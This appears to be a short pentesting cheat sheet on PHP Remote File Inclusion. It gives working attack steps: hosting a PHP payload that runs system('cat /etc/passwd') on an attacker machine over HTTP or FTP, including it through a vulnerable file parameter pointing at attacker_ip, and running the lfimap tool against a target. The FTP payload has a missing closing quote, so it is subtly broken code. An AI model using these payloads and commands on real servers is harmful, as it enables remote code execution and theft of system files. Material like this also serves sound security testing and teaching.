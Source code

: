 # Remote File Inclusion

Vulnerability in web app code that allows execution of files that are hosted on remote servers. Application can be vulnerable if 'allow_url_include' and 'allow_url_fopen' are set to 1.

### Remote inclusion via HTTP 
Setup web server with exploit.php on attacking machine, and try to include it with HTTP protocol.  
Start web server with: `python3 -m http.server 80`

Exploit.php:
```php
<?php echo system("cat /etc/passwd"); ?>
```
Include exploit file for RCE: `http://server/site.php?file=http://attacker_ip/exploit.php`  

### Remote inclusion via FTP
Setup a FTP server with exploit.php on attacking machine, and try to include it with FTP protocol.

```php
<?php echo system("cat /etc/passwd); ?>
```
Start FTP server with: `python -m pyftpdlib -p 21`  
Include remote 'exploit.php': `http://server/site.php?file=ftp://attacker_ip/exploit.php`

### Lfimap
Remote file inclusion can be tested and exploited with [lfimap](https://github.com/hansmach1ne/lfimap).

`python3 lfimap.py "http://server/site.php?file=PWN" -r --no-stop --lhost <IP>`
